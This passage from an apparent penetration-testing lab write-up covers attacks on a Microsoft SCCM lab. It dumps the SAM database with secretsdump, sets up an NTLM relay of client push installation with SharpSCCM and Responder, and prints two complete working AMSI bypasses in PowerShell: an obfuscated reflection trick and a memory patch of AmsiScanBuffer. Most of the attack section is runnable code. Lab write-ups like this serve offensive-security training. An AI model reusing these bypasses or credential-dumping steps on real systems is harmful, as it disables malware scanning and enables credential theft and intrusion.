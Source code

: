 ![elevate1_smbexec.png](/assets/blog/SCCM/elevate1_smbexec.png)

- Get the sam
```bash
proxychains -q secretsdump.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```

![elevate1_sam.png](/assets/blog/SCCM/elevate1_sam.png)


## Elevate-2 - Relay Client Push Installation (low user -> client push account)

- Client push if fallback to ntlm is enabled
- Details : [Elevate-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)
- As we can't do that from linux we will use [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) to do that.
- Let's connect with a low user like `sccm.lab\franck:rockme` to CLIENT$
- Compile and put SharpSCCM_merged.exe into a folder on your attack machine (servir it with `python3 -m http.server 8888`)
- Launch a responder in you attack vm (`Responder.py -I vmnet6`)

- On CLIENT$ do AMSI bypass on powershell level

```powershell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

- Next run the rastamouse's AMSI bypass to disable AMSI for csharp too

```powershell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
